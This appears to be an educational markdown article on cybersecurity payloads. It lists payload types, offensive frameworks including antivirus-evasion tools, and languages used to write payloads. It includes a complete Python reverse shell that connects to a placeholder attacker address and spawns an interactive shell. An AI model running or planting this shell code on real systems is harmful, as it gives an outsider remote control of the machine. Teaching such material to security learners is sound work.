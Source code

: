 ## Payloads in Cybersecurity

In the context of cybersecurity, a payload refers to the part of a malware or exploit that performs the intended malicious action once it has successfully infiltrated a target system. Payloads can vary widely in functionality, from simple commands to complex operations that can compromise systems, exfiltrate data, or establish persistent access.

### Types of Payloads

1. **Reverse Shell**: A payload that opens a command shell on the target machine and connects back to the attacker's machine, allowing remote control.
2. **Bind Shell**: Similar to a reverse shell, but it opens a command shell on the target machine and listens for incoming connections from the attacker.
3. **Meterpreter**: A sophisticated payload used in penetration testing frameworks like Metasploit, providing an interactive shell and various post-exploitation features.
4. **Download and Execute**: A payload that downloads a file from a remote server and executes it on the target system, often used to install additional malware.
5. **Keylogger**: A payload that records keystrokes on the target machine, capturing sensitive information such as passwords and credit card numbers.
6. **Data Exfiltration**: Payloads designed to collect and send sensitive data from the target system to the attacker's server.

### Tools for Creating Payloads

Several tools are commonly used to create and manage payloads in penetration testing and ethical hacking:

- **Metasploit Framework**: A widely used penetration testing framework that provides a comprehensive set of tools for creating, testing, and executing payloads. It includes a variety of pre-built payloads and exploits.
- **Veil-Evasion**: A tool designed to generate payloads that bypass antivirus detection. It can create executable files that deliver payloads while evading security measures.
- **Empire**: A post-exploitation framework that allows users to create and manage payloads for Windows and Linux systems, focusing on PowerShell and Python-based payloads.
- **Cobalt Strike**: A commercial penetration testing tool that provides advanced capabilities for creating and managing payloads, including features for command and control (C2) operations.

### Programming Languages for Payload Development

Various programming languages can be used to create payloads, each with its strengths and use cases:

- **Python**: A versatile language commonly used for scripting and automation. Python is popular for creating payloads due to its simplicity and extensive libraries for networking and system interaction.
- **C/C++**: These languages are often used for developing low-level payloads that require direct interaction with system resources. They are suitable for creating standalone executables with high performance.
- **PowerShell**: A scripting language built into Windows, PowerShell is frequently used for creating payloads that leverage Windows APIs and system commands, making it effective for Windows environments.
- **JavaScript**: Often used in web-based attacks, JavaScript payloads can be executed in browsers to exploit vulnerabilities in web applications or deliver malicious content.
- **Ruby**: The Metasploit Framework is written in Ruby, making it a suitable language for developing custom payloads and modules within the framework.

### Example Payload Creation

Here’s a simple example of how a reverse shell payload might be created using Python:

```python
import socket
import subprocess
import os

# Connect to the attacker's IP and port
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("attacker_ip", attacker_port))

# Redirect standard input/output/error to the socket
os.dup2(s.fileno(), 0)  # stdin
os.dup2(s.fileno(), 1)  # stdout
os.dup2(s.fileno(), 2)  # stderr

# Execute the shell
p = subprocess.call(["/bin/sh", "-i"])
```

### Conclusion

Payloads are a critical component of many cybersecurity operations, particularly in penetration testing and ethical hacking. Understanding the types of payloads, the tools available for creating them, and the programming languages used in their development is essential for security professionals. By leveraging these tools and techniques responsibly, ethical hackers can help organizations identify and mitigate vulnerabilities, ultimately enhancing their security posture.